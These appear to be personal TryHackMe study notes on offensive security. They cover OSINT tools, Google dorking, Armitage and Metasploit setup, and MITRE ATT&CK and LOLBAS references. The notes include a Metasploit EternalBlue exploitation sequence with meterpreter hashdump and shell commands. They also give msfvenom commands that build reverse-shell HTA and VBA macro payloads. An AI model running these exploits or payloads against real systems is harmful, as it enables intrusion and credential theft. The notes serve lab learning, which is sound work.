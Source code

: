 ## OSINT

Open source intelligence

## Tools

`whois` to query the WHOIS database
`nslookup`, `dig`, or `host` to query DNS servers

## Search sites

https://www.exploit-db.com/google-hacking-database
Ex Google: intext:"index of" ".sql"

How would you search using Google for xls indexed for http://clinic.thmredteam.com?
filetype:xls site:clinic.thmredteam.com

## Threat Intelligence Platform

Threat Intelligence Platform will launch a series of tests from malware checks to WHOIS and DNS queries.
https://threatintelligenceplatform.com/

## Censys

Censys Search can provide a lot of information about IP addresses and domains.
https://search.censys.io/

## Shodan

Shodan: Passive Reconnaissance
https://www.shodan.io/host/

## Recon-ng
Recon-ng is a framework that helps automate the OSINT work.
Recon-ng is a full-featured reconnaissance framework designed with the goal of providing a powerful environment to conduct open source web-based reconnaissance quickly and thoroughly.
https://github.com/lanmaster53/recon-ng

## Armitage

```
cd /opt/armitage/release/unix
systemctl start postgresql && systemctl status postgresql
```

```
su ubuntu
msfdb --use-defaults delete
msfdb --use-defaults init
exit
```

Start teamserver

```
cd /opt/armitage/release/unix
./teamserver $IPADDR password
```

Start Armitage

```
cd /opt/armitage/release/unix
./armitage
```

https://www.cyb3rm3.com/1ntr0t0c2
https://www.offensive-security.com/metasploit-unleashed/msfvenom/
https://www.hackingarticles.in/msfvenom-tutorials-beginners/
https://medium.com/@jiteshofficial2004/net-sec-challenge-tryhackme-walkthrough-simplest-way-d5a9bb951b90

## MITRE ATT&CK

https://attack.mitre.org/

Exempel
https://attack.mitre.org/groups/G0096/
https://mitre-attack.github.io/attack-navigator//#layerURL=https%3A%2F%2Fattack.mitre.org%2Fgroups%2FG0096%2FG0096-enterprise-layer.json

## LOLBAS

Living off the land refers to the use of dual-use tools, which are either already installed in the victims’ environment, or are admin, forensic or system tools used maliciously.
Living Off The Land Binaries, Scripts and Libraries
The goal of the LOLBAS project is to document every binary, script, and library that can be used for Living Off The Land techniques.
https://lolbas-project.github.io/

## Metasploit

Penetration testing framework
https://www.metasploit.com/
https://www.cyb3rm3.com/1ntr0t0c2

```
msfconsole

msf5 > search eternalblue
msf5 > use 2
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhost $IPADDR
msf5 exploit(windows/smb/ms17_010_eternalblue) > set lport 8888
msf5 exploit(windows/smb/ms17_010_eternalblue) > run
meterpreter > hashdump
meterpreter > pwd
meterpreter > dir
meterpreter > execute -f cmd.exe -c -i
meterpreter > shell
meterpreter > sysinfo
```

## Meterpreter

Meterpreter is an advanced, dynamically extensible payload that uses in-memory DLL injection stagers and is extended over the network at runtime.
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

## Ubuntu

Version
```
lsb_release -a
```

## Node.js
```
curl -sL https://deb.nodesource.com/setup_16.x | sudo -E bash -
sudo apt-get install -y nodejs
```

## Clone this repo

```
git clone https://github.com/tornord/tryhackme.git
```

## Get the IP address

```
IPADDR=$(hostname -I | cut -d' ' -f1)
```

## Venoms

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IPADDR LPORT=443 -f hta-psh -o thm.hta
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$IPADDR LPORT=443 -f vba -o vba.txt
```